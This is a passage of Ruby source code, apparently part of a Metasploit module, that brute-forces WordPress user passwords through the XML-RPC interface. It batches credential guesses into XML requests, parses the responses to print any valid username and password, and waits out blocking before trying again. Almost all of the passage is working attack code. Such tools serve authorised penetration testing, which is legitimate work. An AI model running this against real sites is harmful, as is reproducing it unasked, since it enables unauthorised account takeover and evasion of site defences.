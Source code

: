 ```ruby
  end

  #
  # Connection Setup
  #
  def send(xml)
    uri  = target_uri.path
    opts =
      {
        'method'  => 'POST',
        'uri'     => normalize_uri(uri, wordpress_url_xmlrpc),
        'data'    => xml,
        'ctype'   =>'text/xml'
      }
    client = Rex::Proto::Http::Client.new(rhost)
    client.connect
    req  = client.request_cgi(opts)
    res  = client.send_recv(req)

    if res && res.code != 200
      print_error('It seems you got blocked!')
      print_warning("I'll sleep for #{datastore['BLOCKEDWAIT']} minutes, then I'll try again. CTR+C to exit")
      sleep datastore['BLOCKEDWAIT'] * 60
    end
    @res = res
  end

  def run
    return if check_wpstatus.nil?

    usernames.each do |user|
      passfound = false

      print_status("Brute forcing user: #{user}")
      generate_xml(user).each do |xml|
        next if passfound == true

        send(xml)

        # Request Parser
        req_xml = Nokogiri::Slop xml
        # Response Parser
        res_xml = Nokogiri::Slop @res.to_s.scan(/<.*>/).join
        puts res_xml 
        res_xml.search("methodResponse/params/param/value/array/data/value").each_with_index do |value, i|

          result =  value.at("struct/member/value/int")
          # If response error code doesn't not exist
          if result.nil?
            user = req_xml.search("data/value/array/data")[i].value[0].text.strip
            pass = req_xml.search("data/value/array/data")[i].value[1].text.strip
            print_good("Credentials Found! #{user}:#{pass}")

            passfound = true
          end

        end

        unless user == usernames.last
          vprint_status('Sleeping for 2 seconds..')
          sleep 2
```